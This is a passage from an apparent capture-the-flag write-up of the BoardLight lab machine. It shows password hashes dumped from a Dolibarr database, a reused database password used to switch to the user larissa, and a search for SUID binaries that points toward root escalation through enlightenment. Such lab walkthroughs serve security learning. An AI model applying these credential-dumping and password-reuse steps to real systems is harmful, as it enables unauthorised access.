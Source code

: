 ```bash
| dateemploymentend            | date         | YES  |     | NULL              |                                               |
| weeklyhours                  | double(16,8) | YES  |     | NULL              |                                               |
| import_key                   | varchar(14)  | YES  |     | NULL              |                                               |
| default_range                | int          | YES  |     | NULL              |                                               |
| default_c_exp_tax_cat        | int          | YES  |     | NULL              |                                               |
| national_registration_number | varchar(50)  | YES  |     | NULL              |                                               |
| fk_warehouse                 | int          | YES  |     | NULL              |                                               |
+------------------------------+--------------+------+-----+-------------------+-----------------------------------------------+
79 rows in set (0.01 sec)
```

```bash
mysql> select login,pass_crypted from llx_user;
+----------+--------------------------------------------------------------+
| login    | pass_crypted                                                 |
+----------+--------------------------------------------------------------+
| dolibarr | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm |
| admin    | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

But the hash of `dolibarr` user doesn't seem crackable. 

There's also a `larissa` user in the `home` folder:

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs$ cd /home/
www-data@boardlight:/home$ ls
larissa
```

And trying the password used in the database for larissa user of the system does work (because it's reused):

```bash
www-data@boardlight:/home$ su larissa
Password: serverfun2$2023!!
larissa@boardlight:/home$
```

The user.txt flag is available in larissa's home directory:

```bash
larissa@boardlight:/home$ cd larissa/
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
larissa@boardlight:~$ cat user.txt 
55****************************ea
```

# Access as root

Looking for executables with SUID permissions, I can see some enlightenment binaries:

```bash
larissa@boardlight:~$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
```